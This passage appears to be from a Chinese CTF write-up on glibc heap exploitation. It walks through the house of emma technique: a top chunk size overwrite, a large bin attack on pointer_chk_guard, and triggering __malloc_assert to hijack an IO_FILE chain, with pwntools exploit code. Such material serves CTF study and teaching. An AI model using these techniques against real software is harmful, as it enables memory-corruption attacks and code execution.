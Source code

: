    ```python
   file+= orw
   debug()
   edit(0,file)
   add(0x4b0,15)   # 触发 __malloc_assert
   run()
   p.interactive()
   ```
   
   远程改一下libc偏移，和pop_r*的地址即可，伪造的IO_FILE不用修改
   
   ![image-20240906181355310](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409061906565.png)



### 方法二：打 house of emma （本地）

#### 思路：

1. 与上面的方法，仅在伪造IO_FILE上的偏移不同，并且伪造的gadget也不同（上面直接利用了_IO_wfile_seekoff函数中自带的gadget完成 rdi 到 rdx的转化）。
2. 并且要进行两次large bin attcck，一次挟持stderr，一次覆盖 `fs:0x30` 。这里由于使用的不是exit触发的FSOP，所以不用伪造两个IO_FILE，因为在 __malloc_assert触发 一直到  _vfwprintf_internal中执行 `call   qword ptr [r12 + 0x38]` 都没有使用到`fs:0x30` 这个指针（调试一遍就知道了），所以可以直接在IO链触发前就将`fs:0x30` 覆盖掉。

#### 利用：

1. 前面泄漏libc地址和堆地址就不多说了，直接从修改top chunk的size开始：

   ```python
   # ========== 修改 top_chunk ==========
   add(0x4c0,15)   # 用来修改 top_chunk的size
   free(15)        # 提高 top_chunk 
   add(0x4b0,14)
   edit(15,b"\x00"*0x4b8 + p64(0x700))
   run()
   
   # ========== large bin attack 覆盖 pointer_chk_guard==========
   free(2)
   pointer_chk_guard_addr = libc_base - 0x2890
   success("pointer_chk_guard_addr ==>" + hex(pointer_chk_guard_addr))
   edit(1,p64(addr)*3 + p64(pointer_chk_guard_addr-0x20))
   add(0x4b0,15)    #15 将chunk0放入large bin 触发large bin attack
   run()
   xor_key = heap_addr + 0x3A20
   success("xor_key ==>" + hex(xor_key))
   
   ```

   这里修改top chunk时给size大一点（页面对齐都无所谓），后面触发latge bin attack 还要使用top chunk:

   ![image-20240907155620151](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409071556412.png)

   成功覆盖为堆地址（之前在unsorted bin中的堆地址），就是我们构造函数指针的`异或值`：

   ![image-20240907155651644](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409071556759.png)
